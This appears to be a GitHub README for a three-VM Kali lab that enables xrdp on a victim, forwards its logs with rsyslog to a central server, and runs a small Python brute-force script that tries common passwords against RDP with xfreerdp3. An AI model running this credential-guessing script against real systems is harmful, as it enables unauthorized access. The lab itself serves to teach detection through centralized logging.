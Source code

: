 # 🔐 Linux-to-Linux RDP Brute Force Lab with Centralized Logging

This lab demonstrates a brute-force attack on an RDP-enabled Kali Linux machine from another Kali attacker machine. A third Kali machine acts as a **centralized log server** using `rsyslog`. The goal is to simulate failed login attempts, capture them via logs, and forward them to a centralized syslog server for monitoring.

![visual](https://github.com/user-attachments/assets/9832bd65-3893-4664-9b49-dbc61096ec53)


> ⚠️ **Educational Use Only**  
> Do **not** use this on real or unauthorized systems.

---

## 🖥️ Lab Setup Overview

We will use **three Kali Linux VMs** connected via VirtualBox **NAT Network**:

| Machine Role        | Hostname      | IP Address Example |
|---------------------|---------------|---------------------|
| Attacker Machine    | `attacker` | `10.0.2.6`          |
| Victim Machine      | `kali-linux-2025`   | `10.0.2.5`          |
| Log Server Machine  | `kali-logger`   | `10.0.2.7`          |

---

## ⚙️ Step-by-Step Setup

### 1. 🧠 Create NAT Network in VirtualBox

- Open **VirtualBox** → `File` → `Tools` → `Network`.
- Create a **NAT Network** (e.g., `NatNetwork`).

### 2. 🛠 Assign NAT Network to All VMs

- For each VM, go to `Settings` → `Network` → Adapter 1.
- Set to **Attached to: NAT Network** and select `NatNetwork`.
  ![nat](https://github.com/user-attachments/assets/b37b819b-b5e0-40f2-b07f-c48faca03e72)


### 3. 📡 Check IP Addresses

Run this on each VM:

```bash
ip a
```
![Screenshot 2025-05-22 130803](https://github.com/user-attachments/assets/153a6a42-17ae-4b56-ae4a-55500699992f)


Note their IPs for future steps.

### 4. 📡 Enable RDP on Victim Machine
- Install and enable xrdp on the kali-linux-2025 machine:
```bash
sudo apt update
sudo apt install xrdp -y
sudo systemctl enable xrdp
sudo systemctl start xrdp
```
![2](https://github.com/user-attachments/assets/40fe63e3-f070-4d69-bb3e-fc3f8837df06)

- Check if RDP is listening:
```bash
sudo ss -tulpn | grep xrdp
```
![3](https://github.com/user-attachments/assets/a1139dd2-ace5-4080-b2b3-db20229db208)

### 5. 📡 Configure Centralized Logging (kali-logger)
On ```kali-logger``` (log server):

1. Install rsyslog
```bash
sudo apt update
sudo apt install rsyslog
```

3. Edit rsyslog config:
```bash
sudo nano /etc/rsyslog.conf
```
Uncomment or add these lines:
```conf
module(load="imudp")
input(type="imudp" port="514")
module(load="imtcp")
input(type="imtcp" port="514")
```
![4](https://github.com/user-attachments/assets/a056da09-bd34-4290-9467-34cf69edbff8)

3. Create a log directory for incoming logs:
```bash
sudo mkdir /var/log/remotelogs
sudo nano /etc/rsyslog.d/remote.conf
```
4. Restart ```rsyslog```
```bash
sudo systemctl restart rsyslog
```

---

### 📤 6: Configure Victim to Send Logs to Logger

1. Install rsyslog in the victim machine:
```bash
sudo apt update
sudo apt install rsyslog
```
Edit rsyslog config:
```bash
sudo nano /etc/rsyslog.conf
```
At the bottom, add:
```bash
*.* @@10.0.2.7:514
```
2. Restart rsyslog:
```bash
sudo systemctl restart rsyslog
```
3. Test log forwarding:
```bash
logger "Test message from kali-victim"
```
![5](https://github.com/user-attachments/assets/ac85fd88-4ddf-4722-ad10-43bba3c3a419)

Check on ```kali-logger```:
```bash
sudo tail -f /var/log/remotelogs/kali/syslog.log
```
![6](https://github.com/user-attachments/assets/cc15ec8f-d1f9-4b37-ae87-11ca7c182042)


---
### 🐍7: Brute Force Python Script (on kali-attacker)
Generally, ```freerdp3-x11``` is pre-installed in kali.
Now create the script:
```bash
nano rdp_brute.py
```
Paste this:
```bash
import os
import time

target_ip = input("Enter victim IP (e.g., 10.0.2.6): ")
username = input("Enter username: ")

passwords = [
    "123456", "password", "kali", "toor", "letmein",
    "qwerty", "admin", "root", "pass123", "test123"
]

for i, password in enumerate(passwords, 1):
    print(f"[{i}] Trying password: {password}")
    result = os.system(f"xfreerdp3 /v:{target_ip} /u:{username} /p:{password} +auth-only /cert:ignore")
    time.sleep(1)

```
Make it executable:
```bash
chmod +x rdp_brute.py
```
Run the attack:
```bash
python3 rdp_brute.py
```
![7](https://github.com/user-attachments/assets/70804431-5a68-4ece-9697-3b6ad91a52c0)


---

### 📋 8: Check Logs on Central Log Server
On ```kali-logger```, tail the logs:
```bash
sudo tail -f /var/log/remotelogs/kali-victim/syslog.log
```
### Look for failed RDP logon entries.
![8](https://github.com/user-attachments/assets/318d96b5-b1d0-42bc-97f0-e1b213ac7bcb)


## ✅ Summary
✅ Enabled RDP on Linux (xrdp)

✅ Configured rsyslog for centralized logging

✅ Ran brute-force Python script from attacker

✅ Verified log forwarding and detection

# ⚠️ Disclaimer
This lab is for ethical hacking and educational use only.
Never attack any system without explicit permission.


